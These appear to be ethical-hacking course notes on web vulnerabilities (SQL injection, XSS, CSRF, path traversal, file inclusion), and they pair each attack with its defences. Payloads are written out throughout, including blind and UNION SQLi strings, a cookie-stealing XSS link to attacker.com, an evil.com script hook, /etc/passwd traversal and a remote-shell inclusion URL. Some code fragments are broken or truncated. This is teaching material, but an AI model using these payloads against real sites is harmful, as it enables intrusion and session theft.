








Course: Ethical Hacking (MD) | VIT Pune*
Faculty / Curriculum: AY 2026-27 | Exam Date: 27 Nov 2026
Web applications operate on client-server architectures using the Hypertext Transfer Protocol.
+---------------------------------------------------------------------------------------+
| HTTP vs HTTPS COMPARISON |
+-------------------------------------------+-------------------------------------------+
| HTTP (Hypertext Transfer) | HTTPS (HTTP over TLS/SSL) |
+-------------------------------------------+-------------------------------------------+
| * Operates on TCP Port 80. | * Operates on TCP Port 443. |
| * Transmits data in cleartext. | * Encrypts payload via TLS 1.2 / TLS 1.3. |
| * Vulnerable to packet sniffing and MITM. | * Provides Confidentiality & Integrity. |
| * Zero authentication of server identity. | * Authenticates server via X.509 PKI cert.|
+-------------------------------------------+-------------------------------------------+When a client connects to https://target.com:
1. ClientHello: Transmits supported TLS version, supported cryptographic cipher suites, and a client random nonce.
2. ServerHello: Chooses cipher suite (e.g., TLS_AES_256_GCM_SHA384), provides server random nonce, and sends its public X.509 Digital Certificate signed by a trusted Certificate Authority (CA).
3. Key Exchange (ECDHE): Elliptic Curve Diffie-Hellman Ephemeral exchange establishes a shared session master secret, providing Perfect Forward Secrecy (PFS).
4. Finished: Both parties switch to symmetric AES-GCM encryption for all application HTTP payloads.

The Open Web Application Security Project (OWASP) Top 10 represents the authoritative global consensus on the most critical security risks facing web applications.
+---------------------------------------------------------------------------------------+
| OWASP TOP 10 (2025 vs 2021 ARCHITECTURE) |
+--------+------------------------------------+-----------------------------------------+
| Rank | OWASP Top 10: 2025 (Finalized) | Core Root Cause & High-Yield Prevention |
+--------+------------------------------------+-----------------------------------------+
| **A01**| Broken Access Control | Unauthorized data access / IDOR / SSRF. |
| | | Fix: Enforce server-side checks; PoLP. |
+--------+------------------------------------+-----------------------------------------+
| **A02**| Security Misconfiguration | Default passwords, verbose stack traces.|
| | | Fix: Hardened baseline; disable debug. |
+--------+------------------------------------+-----------------------------------------+
| **A03**| Injection (SQLi, Command, LDAP) | Concatenating untrusted input to query. |
| | | Fix: Parameterized Prepared Statements. |
+--------+------------------------------------+-----------------------------------------+
| **A04**| Cryptographic Failures | Cleartext transmission, weak MD5/DES. |
| | | Fix: TLS 1.3, AES-256, salted Argon2id. |
+--------+------------------------------------+-----------------------------------------+
| **A05**| Insecure Design | Architecture flaws, lack of threat model|
| | | Fix: Threat modeling, defense-in-depth. |
+--------+------------------------------------+-----------------------------------------+
| **A06**| Vulnerable & Outdated Components | Using libraries with known CVEs (Log4j).|
| | | Fix: SCA scanning, automated patching. |
+--------+------------------------------------+-----------------------------------------+
| **A07**| Identification & Auth Failures | Weak passwords, missing MFA, session fix|
| | | Fix: Mandatory MFA, rate-limiting. |
+--------+------------------------------------+-----------------------------------------+
| **A08**| Software & Data Integrity Failures | Insecure deserialization, unsigned code.|
| | | Fix: Digital signatures, secure CI/CD. |
+--------+------------------------------------+-----------------------------------------+
| **A09**| Security Logging & Monitoring | Missing audit trails, unmonitored logs. |
| | | Fix: Centralized SIEM, real-time alerts.|
+--------+------------------------------------+-----------------------------------------+
| **A10**| Server-Side Request Forgery (SSRF) | Server fetching attacker-supplied URL. |
| | *(Note: Folded into A01 in 2025)* | Fix: Egress filtering, metadata service.|
+--------+------------------------------------+-----------------------------------------+

SQL Injection occurs when untrusted user-supplied input is directly concatenated into a dynamic database query string, allowing an attacker to manipulate query structure and logic.
Vulnerable Code:
query = "SELECT * FROM users WHERE user = '" + input_user + "' AND pass = '" + input_pass + "'";
Attacker Input:
input_user = admin' --
input_pass = irrelevant
Resulting Executed Query:
SELECT * FROM users WHERE user = 'admin' --' AND pass = 'irrelevant'
│
└── Everything after '--' is ignored as comment!The attacker uses the same communication channel to launch the attack and retrieve results:
* Tautology / Authentication Bypass:
* Input: ' OR 1=1 --
Query: SELECT FROM products WHERE category = '' OR 1=1 --' (Returns all rows because 1=1 is unconditionally TRUE).
* UNION-Based SQLi:
* Appends the results of an attacker-crafted query to the original query results using the UNION operator:
Step 1: Determine column count*: ' ORDER BY 1--, ' ORDER BY 2-- until error.
Step 2: Extract data*:
`sql
' UNION SELECT 1, username, password FROM users--
`
The application returns no database error messages or extracted data in the HTTP response. The attacker reconstructs data character-by-character by observing server behavior:
* Boolean-Based Blind SQLi:
* Attacker submits conditions that evaluate to True or False:
`sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') = 'a' --
`
* If the page renders normally $\rightarrow$ character is 'a'. If page renders differently $\rightarrow$ character is not 'a'.
* Time-Based Blind SQLi:
* Attacker injects database sleep functions to induce deliberate processing delays:
`sql
# PostgreSQL / MySQL:
' OR IF(1=1, SLEEP(5), 0) --
# Microsoft SQL Server:
'; IF (1=1) WAITFOR DELAY '0:0:5' --
`
* If the HTTP response arrives after 5 seconds, the evaluated condition was True.
Used when direct response channels are disabled and server processing is asynchronous. The injected payload forces the database server to initiate an external DNS lookup or HTTP request back to the attacker’s listener (e.g., xp_dirtree in MSSQL querying \\attacker-ip\share or Oracle UTL_HTTP).
The only complete, structural defense against SQL injection is the strict separation of code (query structure) from data (user input).
# SECURE IMPLEMENTATION (Python DB-API / SQLite / PostgreSQL):
cursor.execute(
"SELECT * FROM users WHERE username = %s AND password = %s",
(input_user, input_pass) # Parameters passed separately from SQL string
)// SECURE IMPLEMENTATION (Java JDBC PreparedStatement):
String sql = "SELECT * FROM accounts WHERE user_id = ?";
PreparedStatement stmt = connection.prepareStatement(sql);
stmt.setString(1, userId);
ResultSet rs = stmt.executeQuery(); How it Works: The database compiler pre-compiles the SQL syntax tree before* parameter values are bound. When user input containing ' OR '1'='1 is supplied, the database treats the entire input strictly as a literal scalar string, never as executable SQL tokens.
* Secondary Defenses: Object-Relational Mapping (ORM) frameworks (e.g., Hibernate, SQLAlchemy), database user least-privilege, and Web Application Firewalls (WAF).


XSS occurs when a web application includes unvalidated and unencoded user input within its web page output, allowing an attacker to execute arbitrary client-side JavaScript in a victim's browser.
+---------------------------------------------------------------------------------------+
| XSS CLASSIFICATION |
+---------------------------+---------------------------+-------------------------------+
| REFLECTED XSS | STORED XSS | DOM-BASED XSS |
| (Non-Persistent) | (Persistent) | (Client-Side) |
+---------------------------+---------------------------+-------------------------------+
| * Injected via URL query. | * Injected into database. | * Vulnerability in client JS. |
| * Reflected immediately. | * Served to all visitors. | * Server never sees payload! |
| * Delivered via Phishing. | * High impact (Forums). | * Source: document.location |
| | | * Sink: innerHTML, eval() |
+---------------------------+---------------------------+-------------------------------+* Flow: Attacker crafts a poisoned link: http://bank.com/search?q=<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>.
* When the victim clicks the link, the server reflects the q parameter directly into the HTML response without encoding.
* The victim's browser executes the script in the context of bank.com.
* Flow: Attacker posts a comment on a blog or customer review field containing <script data-disabled-src="http://evil.com/hook.js"></script>.
* The application stores the payload directly into the database.
* Every subsequent user who views the page receives the payload from the database and executes the malicious script automatically.
* Flow: The vulnerability exists entirely within client-side JavaScript code.
* The application reads data from an unvalidated DOM Source (e.g., location.search, location.hash) and writes it to an unsafe DOM Sink (e.g., document.write(), element.innerHTML, eval()):
`javascript
// VULNERABLE DOM SCRIPT:
let search = location.search.substring(1);
document.getElementById("output").innerHTML = "Results for: " + search;
`
* Because the URL fragment (#payload) is processed locally by the browser, the payload is never even transmitted to the web server!
1. Contextual Output Encoding: Encode untrusted data immediately before writing it into HTML body (<script>), JavaScript variables, attributes, or CSS.
2. Content Security Policy (CSP): HTTP response header restricting script execution sources:
`http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com;
`
Completely blocks inline scripts (<script>alert(1)</script>) and unauthorized external scripts.
3. HttpOnly Cookie Flag: Prevents JavaScript from reading session cookies via document.cookie.


Cross-Site Request Forgery tricks an authenticated victim's web browser into executing an unintended, state-changing HTTP request to a vulnerable web application:
* Prerequisites:
1. Victim has an active, authenticated session with bank.com (session cookie stored in browser).
2. The application relies strictly on automatic browser cookie transmission for authentication.
3. The request parameters are completely predictable.
* Attack Scenario:
Attacker hosts a malicious webpage (evil.com) containing an invisible auto-submitting form:
`html
<script>document.getElementById('csrfForm').submit();</script>
`
When the victim visits evil.com, the browser automatically attaches the victim’s valid session cookie for bank.com and executes the transfer without the victim's knowledge!
[ Victim Browser ] ────────── 1. Authenticates & gets Session Cookie ───────► [ bank.com ]
│
▼ (Visits evil.com)
[ evil.com Page ] ────────── 2. Forges Hidden Transfer POST Request ────────► [ bank.com ]
(Browser attaches bank.com cookie!)
* Transfer executed unauthorized!1. Anti-CSRF Synchronizer Tokens:
* Server generates a cryptographically random, unpredictable token unique to the current user session.
* The token is embedded within HTML forms as a hidden field ().
* Upon submission, the server verifies that the submitted form token matches the token stored in the server session. An external site (evil.com) cannot read this token due to the Same-Origin Policy (SOP).
2. SameSite Cookie Attribute:
* SameSite=Strict: The browser never sends the cookie in cross-site requests (e.g., following external links or third-party POST forms).
* SameSite=Lax: Permits cookie sending only on top-level cross-site GET navigations.
3. Re-Authentication for Critical Actions: Requiring password re-entry or MFA confirmation before executing fund transfers or changing passwords.

* Concept: Exploits insufficient sanitization of file path inputs, utilizing dot-dot-slash (../) sequences to traverse outside the web root directory into restricted OS folders.
* Exploitation Example:
`http
GET /view_image?filename=../../../../etc/passwd HTTP/1.1
GET /download?file=..\\..\\..\\windows\\system32\\drivers\\etc\\hosts HTTP/1.1
`
* Defense: Canonicalize file paths using realpath(), validate against an explicit allowlist of filenames, and avoid passing user input directly to filesystem APIs.
* Local File Inclusion (LFI): Forces the web server to execute a file residing locally on the system (e.g., Apache log files poisoned with PHP code: ?page=/var/log/apache2/access.log).
* Remote File Inclusion (RFI): Exploits PHP include() or require() statements to load and execute a remote script hosted on an attacker's web server:
`text
http://target.com/index.php?page=http://attacker.com/malicious_shell.txt
`
* Defense: Disable allow_url_include and allow_url_fopen in php.ini.
| HTTP Security Header | Directive Example | Security Protection |
|---|---|---|
| **Content-Security-Policy (CSP)** | `default-src 'self'; script-src 'self' cdn.example.com;` | Mitigates XSS, packet sniffing, and data injection. |
| **Strict-Transport-Security (HSTS)** | `max-age=31536000; includeSubDomains; preload` | Forces all connections to HTTPS; defeats SSL-Stripping. |
| **X-Frame-Options** | `DENY` or `SAMEORIGIN` | Prevents page from being loaded in an ` |